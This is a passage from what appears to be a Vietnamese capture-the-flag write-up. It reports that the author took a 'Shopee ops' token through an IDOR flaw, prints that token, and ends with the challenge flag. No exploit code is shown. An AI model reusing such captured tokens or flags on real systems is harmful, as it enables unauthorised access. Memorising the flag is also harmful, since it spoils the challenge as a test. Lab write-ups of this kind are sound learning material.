

hẹ hẹ, vậy là ta đã có token của shopee ops
```
5964ae8e6d238da0030cef2832d2e9a4f44e977aadb14181f0b6ce4536819e91
```


mình lấy token của shopee ops và lấy dcd invoices kèm flag của bài

**FLAG**: miniCTF{sh0ppeee_1d0r_l3ak5_1nv01ce_t0k3n}